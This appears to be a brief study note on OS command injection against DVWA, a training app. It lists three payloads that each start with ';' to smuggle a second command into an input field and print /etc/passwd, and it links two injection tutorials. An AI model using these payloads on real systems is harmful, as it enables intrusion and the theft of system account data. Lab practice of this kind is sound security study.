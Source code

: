 # 03 - Data Exfiltration

Search Tag(s): #command-injection #dvwa

```
; while read line; do echo $line; done < /etc/passwd

; while IFS= read -r line; do echo "$line"; done < /etc/passwd

; while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd
```

---
## References

- [Hacking Articles: Comprehensive Guide on OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/)

- [YeahHub: Command Injection Meterpreter Shell Detailed Tutorial 2018](https://www.yeahhub.com/command-injection-meterpreter-shell-detailed-tutorial-2018/)